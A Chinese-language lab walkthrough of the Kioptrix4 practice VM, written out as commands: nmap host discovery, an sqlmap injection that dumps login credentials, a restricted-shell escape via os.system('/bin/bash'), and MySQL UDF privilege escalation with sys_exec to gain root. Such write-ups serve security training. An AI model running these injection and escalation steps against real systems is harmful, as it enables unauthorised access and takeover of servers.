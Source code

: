 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供，我仅作部分内容修改

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../assets/img/安全/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中。然后我们要知道这个虚拟机的 ip 地址，就要用到 IP 探活。

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../assets/img/安全/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址，除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../assets/img/安全/实验/Kioptrix4/3.png)

可以发现，目标打开了 80 端口

![image](../../../assets/img/安全/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload，下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../assets/img/安全/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../assets/img/安全/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../assets/img/安全/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../assets/img/安全/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../assets/img/安全/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../assets/img/安全/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../assets/img/安全/实验/Kioptrix4/17.png)
![image](../../../assets/img/安全/实验/Kioptrix4/18.png)

在我们退出去后，尝试登陆到 root

![image](../../../assets/img/安全/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
